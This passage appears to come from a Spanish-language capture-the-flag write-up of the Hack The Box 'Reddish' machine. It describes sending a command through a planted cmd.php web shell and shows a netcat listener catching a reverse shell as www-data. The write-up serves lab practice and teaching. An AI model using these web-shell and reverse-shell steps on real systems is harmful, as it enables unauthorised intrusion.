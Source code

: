  

![14.png](/assets/images/2022-05-10-Reddish/14.png)

### Enviamos el comando por la la variable de nuestra cmd.php

![15.png](/assets/images/2022-05-10-Reddish/15.png)

### Y así recibimos nuestra Reverse Shell, a la máquina nodered y esta lo dirige a nuestra máquina de atacante

```abap
┌─[root@parrot]─[/mnt/angussMoody/Scripts/Static/linux]
└──╼ #nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.10.14.118] from (UNKNOWN) [10.129.224.218] 34948
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@www:/var/www/html/8924d0549008565c554f8128cd11fda4$ whoami
whoami
www-data
www-data@www:/var/www/html/8924d0549008565c554f8128cd11fda4$
```
